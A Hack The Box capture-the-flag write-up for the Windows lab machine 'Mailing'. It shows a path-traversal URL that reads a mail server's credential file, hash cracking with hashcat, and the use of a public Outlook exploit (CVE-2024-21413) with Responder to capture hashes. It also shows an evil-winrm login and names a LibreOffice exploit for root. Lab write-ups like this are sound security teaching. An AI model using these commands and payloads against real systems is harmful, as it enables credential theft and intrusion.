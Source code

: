 ```yaml
---
title: 'HTB Mailing Writeup'
date: 2024-05-15
permalink: /posts/2012/08/HTB-Mailing-Writeup/
tags:
  - HTB
  - writeup
  - easy
---
```


A writeup of the Hack The Box machine "Mailing" with easy difficulty

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 230041.png'>

**Welcome to this writeup of the HTB seasonal machine called Mailing. It is a Windows machine with easy difficulty.**

Enumeration
======
First, run a Nmap scan which gives the following results: 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 230522.png'>

We can see a webpage called mailing.htb so we put this in the /etc/hosts file with the IP of the machine: 10.10.11.14. 

This shows us the webpage > 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 230635.png'>

Next, we run a dirsearch scan to enumerate directories > 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 230719.png'>

Hmm alright. There is an /assets page and a /download.php page. 

The /assets page only shows us beautiful pictures of nature 😊 and the download page says “No file specified for download”.

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 230838.png'>

After that someone requested a machine reset lol. 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 230917.png'>

Allright, so I think LFI (Local File Inclusion) is a possible entry point with this /download.php page.  

User flag
======
After some more enumeration, I could download a hMailServer.INI file via the following URL: "http://mailing.htb/download.php?file=../../../Program+Files+(x86)/hMailServer/Bin/hMailServer.INI"

This file contains the administrator password of something > 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 231035.png'>

These are hashed passwords we have to crack with hashcat > `hashcat --force -m 0 -a 0 pass.txt /usr/share/wordlists/rockyou.txt` --where –m 0 stands for a md5 hash. 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 231222.png'>

This password is for telnet access. Port 110 is the pop3 mailserver.  

With the command `telnet 10.10.11.14 110` we can connect to the mailserver. 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 231313.png'>

There are no messages sadly. But the username and password are correct. 

With the "https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability" exploit a user and a password can be obtained. 

Setup a responder listerner with: `sudo responder -I tun0 -v`

Then we run the following command > `python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password <The-password-we-obtained> --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\IP/blabla" --subject Hello`

This will give you a hash which is a password we can crack with hashcat. 

A Evil winrm can be established with: `evil-winrm -i 10.10.11.14 -u maya -p <Cracked-password>`

The user flag can be found in the Desktop directory > 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 231754.png'>

Root flag
======
After searching the directories on the machine, we discovered that Libreoffice is running an outdated version. After searching for an exploit, we can use this tool: "https://github.com/elweth-sec/CVE-2023-2255" to probably gain root. 


